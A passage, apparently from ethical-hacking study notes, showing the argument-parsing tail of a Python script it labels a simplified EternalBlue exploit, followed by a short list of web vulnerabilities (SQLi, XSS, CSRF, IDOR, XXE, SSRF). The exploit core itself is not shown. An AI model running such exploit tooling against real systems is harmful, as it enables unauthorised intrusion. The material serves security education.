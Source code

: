 ```python

    sock.close()


def main():
    # Setting ASCII art
    ascii_art = figlet_format('Eternal Blue', font='slant')
    print(ascii_art)

    # Argument parsing
    parser = argparse.ArgumentParser(description='Simple eternal blue exploit coded in python')

    parser.add_argument('-t', '--target', type=str, required=True, help='The target IP to exploit')

    parser.add_argument('-p', '--port', type=str, required=True, help='The target PORT to exploit')

    args = parser.parse_args()

    # Calling the sending exploit function

    send_exploit(target_ip=args.target, target_port=args.port)


if __name__ == '__main__':
    main()
```

This example is greatly simplified and does not include the full complexity of the EternalBlue exploit. In practice, developing such an exploit requires in-depth knowledge of the SMB protocol, Windows internals, and exploit development techniques.

### Exploiting Web Applications
---


Web applications are a common target for attackers due to their widespread use and potential for containing sensitive data. Understanding and exploiting web application vulnerabilities is a crucial skill for ethical hackers and penetration testers.

Introduction to web application vulnerabilities Some common web application vulnerabilities include: 

1. SQL Injection ([SQLi](../../../../Bug%20Bounty/Vulnerabilities/SERVER%20SIDE%20VULNERABILITIES/INJECTIONS/SQLI/SQL%20INJECTION%20(SQLI).md)): Occurs when user input is not properly sanitized and is directly included in SQL queries, allowing attackers to manipulate the database
2. Cross-Site Scripting ([XSS](../../../../Bug%20Bounty/Vulnerabilities/SERVER%20SIDE%20VULNERABILITIES/CROSS%20SITE%20SCRIPTING/CROSS%20SITE%20SCRIPTING%20(XSS).md)): Allows attackers to inject malicious scripts into web pages viewed by other users, potentially stealing sensitive information or performing actions on behalf of the victim.
3. Cross-Site Request Forgery ([CSRF](../../../../Bug%20Bounty/Vulnerabilities/SERVER%20SIDE%20VULNERABILITIES/CROSS%20SITE%20REQUEST%20FORGERY/CROSS%20SITE%20REQUEST%20FORGERY%20(CSRF).md)): Tricks the victim into performing unintended actions on a web application where they're authenticated.
4. Insecure Direct Object References ([IDOR](../../../../Bug%20Bounty/Vulnerabilities/SERVER%20SIDE%20VULNERABILITIES/IDOR/IDOR%20BASICS.md)): Allows attackers to access or manipulate resources by modifying object references in requests
5. XML External Entity (XXE) Injection: Exploits poorly configured XML parsers to access internal files or perform denial of service attacks.
6. Server-Side Request Forgery ([SSRF](../../../../Bug%20Bounty/Vulnerabilities/SERVER%20SIDE%20VULNERABILITIES/SERVER%20SIDE/SERVER%20SIDE%20REQUEST%20FORGERY%20(SSRF).md)): Allows attackers to make the server perform unintended network requests.
